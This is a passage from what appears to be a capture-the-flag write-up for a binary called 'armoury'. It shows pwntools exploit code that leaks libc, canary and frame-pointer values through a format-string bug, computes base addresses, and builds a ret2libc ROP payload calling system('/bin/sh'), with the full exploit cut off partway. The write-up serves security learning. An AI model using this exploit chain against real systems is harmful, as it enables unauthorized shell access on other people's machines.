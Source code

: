 ```  
leak = r.recvuntil(":").replace(":", "").split(".")  
leaked_libc = int(leak[0], 16)  
  
offset_to_libc = 0xdb970  
offset_to_system = 0x3f480  
offset_to_binsh = 0x161c19  
```  
↑ Once we receive the leaks, we split the string regarding '.'

- leak[0] = 3rd argument  
- leak[1] = canary  
- leak[2] = sfp

I also save the offsets I have.

```  
libc_addr = leaked_libc - offset_to_libc  
system_addr = libc_addr + offset_to_system  
binsh_addr = libc_addr + offset_to_binsh  
```  
↑ Calculate all the addresses I need using the offsets. If any of these
calculations don't make sense, refer back to section 2.3 - I've explained a
little bit there.

```  
canary = int(leak[1], 16)  
leaked_elf = int(leak[2], 16)  
elf_addr = leaked_elf - (leaked_elf & 0xfff)

offset_pop_rdi = 0xd03  
pop_rdi = elf_addr + offset_pop_rdi  
```  
↑ I also cast the canary to int here, and calculate the ELF base address.

If you do a &0xfff operation, you get the last three bytes of a number - so we
can just subtract this from the original address and we get the base address.

```  
payload += "A"*24 # Fill up the buffer  
payload += p64(canary) # Canary  
payload += "B"*8 # Overwrite saved RBP  
payload += p64(pop_rdi)  
payload += p64(binsh_addr)  
payload += p64(system_addr)  
payload += "\n"  
```

As written above (POC) this is the generic ret2libc payload.

Since the argument to system() is passed on through RDI, we load the address
of /bin/sh on RDI (using pop rdi) and call system().

-----

## 5. Full Exploit  
```  
from pwn import *  
  
r = process("./armoury")  
  
payload = ""  
  
r.recvuntil("Enter the name of Rifle to get info:\n")  
r.send("%3$p.%13$p.%14$p\n") # libc address, canary, saved rbp  
  
r.recvuntil("----------------DATA-------------------\n")  
  
leak = r.recvuntil(":").replace(":", "").split(".")  
```